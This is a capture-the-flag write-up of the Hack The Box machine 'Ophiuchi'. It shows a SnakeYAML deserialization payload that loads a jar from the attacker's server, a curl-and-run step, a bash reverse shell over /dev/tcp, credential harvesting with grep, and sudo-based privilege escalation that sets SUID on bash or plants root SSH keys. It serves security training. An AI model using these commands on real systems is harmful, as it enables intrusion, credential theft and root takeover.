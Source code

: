 ```yaml
---
title: "Ophiuchi HTB Writeup"
date: 2021-07-03T14:23:49+02:00
draft: false
Tags: [
    "Writeups",
    "hackthebox",
    "retired",
    "medium",
    "linux",
]
---
```

![Machine Info](/images/ophiuchi/1.png)

### 1. Enumeration:
* Nmap:
To scan for open ports and services running
 * ``$ nmap -sC -sV -oA 10.10.10.227``
![](/images/ophiuchi/2.png)

We only got two open ports: ssh on (port 22), apache server on (port 8080)

### 2. Web enumeration:

let's discover what's running over there.. 

![](/images/ophiuchi/3.png)

and the source code (press ctrl+u)
![](/images/ophiuchi/4.png)

so we got a Yaml parser and nothing interesting in the source code .. 

also try any yaml code u get this page as a response:
![](/images/ophiuchi/38.png)

### About yaml & parser thing:

* YAML is a human-readable data-serialization language. It is commonly used for configuration files and in applications where data is being stored or transmitted. YAML targets many of the same communications applications as Extensible Markup Language but has a minimal syntax which intentionally differs from SGML.

* A parser is a component of a compiler or interpreter, which parses the source code of a computer programming language to create some form of internal representation; the parser is a key step in the compiler frontend.

For me i think its functionality is interesting and maybe it has deserialization vulnerability, but let's keep digging:

* Dirsearch:
  * to look for hidden directories; found nothing useful..

``$ python3 /PATH/dirsearch/dirsearch.py -u http://10.10.10.227:8080/ -w /usr/share/dirb/wordlists/big.txt -e txt,html,php,log,zip,bac,bak,tar``

![](/images/ophiuchi/5.png)

* lets search for any YAML parser exploits:
  * SnakeYaml library deserilization vulnerability [here](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858) and [here](https://snyk.io/blog/java-yaml-parser-with-snakeyaml/)
  * Found this [exploit](https://github.com/artsploit/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java)

![](/images/ophiuchi/6.png)

* Download and make changes:

![](/images/ophiuchi/7.png)

add the commands we want to execute:
  * ``curl ip/rev.sh -o  /tmp/rev.sh`` to get our reverse shell payload file 
  * ``bash /tmp/rev.sh`` to execute it and give us a shell
![](/images/ophiuchi/8.png)

Making the reverse shell file as ``rev.sh``: 

* ``bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'``
![](/images/ophiuchi/9.png)

Time to compile and get the payload:

* ``javac AwesomeScriptEngineFactory.java``
![](/images/ophiuchi/10.png)

* ``jar -cvf yaml-payload.jar -C src/ .``
![](/images/ophiuchi/11.png)

### 3. Exploitation:
* put this payload in the Yaml parser:

```bash
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.17.34/yaml-payload.jar"]
  ]]
]
```
![](/images/ophiuchi/12.png)

* open python server in the folder where your (rev.sh and yaml-payload.jar) files are && open your netcat listener first before proceeding:
```bash
sudo python3 -m http.server 80
nc -lvnp port
```
![](/images/ophiuchi/13.png)
![](/images/ophiuchi/14.png)

And here we got a connection as "tomcat" after parsing with our payload .. 

* couldn't read the user's flag
![](/images/ophiuchi/15.png)

* let's look deeper 
  * found these config files 
![](/images/ophiuchi/16.png)
![](/images/ophiuchi/17.png)

  * let's search if there are any credentials:
``cat * | grep pass``
![](/images/ophiuchi/18.png)

Got the admin's creds: ``admin:"whythereisalimit"``

* switch to admin and get the flag:
![](/images/ophiuchi/19.png)

---
### 4. Privilege Escalation:

let's ssh connect for better interactive shell:

```bash
$ ssh admin@10.10.10.227
> password: whythereisalimit
$ locate python
$ /usr/bin/python3.8 -c 'import pty; pty.spawn("/bin/sh")' 
```

* let's list the permitted commands for current user: ``sudo -l`` >> worked without password 
![](/images/ophiuchi/20.png)

``NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go`` which means:

admin can run this go script ‘/opt/wasm-functions/index.go’ as root without password needed

* Time to check what it does:

![](/images/ophiuchi/21.png)
![](/images/ophiuchi/22.png)

From the code we find that it opens the main.wasm file (in the same directory) and if the set value is not equals to 1 it doesn't work but if it's 1 we can run the deploy.sh script.

``$ cat deploy.sh``
![](/images/ophiuchi/23.png)

Tried to cat main.wasm >> it's a binary file

![](/images/ophiuchi/24.png)

What is wasm? - it's a binary format for executables used by web pages..
![](/images/ophiuchi/25.png)

* So i thought we need to decompile this binary file (main.wasm) and read what's in there and try to change the value from 0 to 1 so we can run the deploy.sh script which we will edit and put our ssh public key and get permitted by root..
* let's look for online decompilers or else for this wasm format:

  * found this [one](https://webassembly.github.io/wabt/demo/wasm2wat/index.html) 

Transfer the main.wasm to your own machine and upload it to this site:

```
$ nc -l -p 1234 > main.wasm  on the sender side
$ nc -w 3 10.10.17.34 1234 < main.wasm    on the reciever side
OR 
$ cat file > /dev/tcp/ip/port
$ nc -lvnp port > file
```
![](/images/ophiuchi/26.png)
![](/images/ophiuchi/27.png)

the code after uploading to the site:
![](/images/ophiuchi/28.png)

the 0 to be changed to 1:
![](/images/ophiuchi/29.png)

Code after edit:
```text
(module
  (type $t0 (func (result i32)))
  (func $info (export "info") (type $t0) (result i32)
    (i32.const 1))
  (table $T0 1 1 funcref)
  (memory $memory (export "memory") 16)
  (global $g0 (mut i32) (i32.const 1048576))
  (global $__data_end (export "__data_end") i32 (i32.const 1048576))
  (global $__heap_base (export "__heap_base") i32 (i32.const 1048576)))
```

Now download the file as test.wasm:

![](/images/ophiuchi/30.png)

### Final steps:

* will transfer the test.wasm and name it as main.wasm 
* will make a deploy.sh with our own payload
* run and getting root .. make these stuff in a writable directory /tmp 

``` bash
> cd /tmp
> echo "chmod +s /bin/bash" > deploy.sh   sets the SUID on /bin/bash
> wget http://10.10.14.5/test.wasm -o main.wasm
> chmod 777 *  to change permissions for all inside dir
> sudo -u root /usr/bin/go run /opt/wasm-functions/index.go
> /bin/bash -p
```

![](/images/ophiuchi/31.png)

![](/images/ophiuchi/32.png)

test.wasm wasn't renamed as main.wasm
![](/images/ophiuchi/33.png)

getting root and flag:
![](/images/ophiuchi/34.png)

---
Another way:

we also can use our ssh keys 
```
echo 'echo "PUB key" > /root/.ssh/authorized_keys' >> deploy.sh
 > wget http://10.10.14.5/test.wasm -o main.wasm
 > sudo -u root /usr/bin/go run /opt/wasm-functions/index.go
```
![](/images/ophiuchi/35.png)

connecting with our private key:

* ``ssh -i id_rsa root@10.10.10.227``
![](/images/ophiuchi/36.png)

![](/images/ophiuchi/37.png)

Done..

Hope you enjoyed the writeup ..

If so kindly give me respect [Wh1rlw1nd-HTB](https://www.hackthebox.eu/home/users/profile/182588).

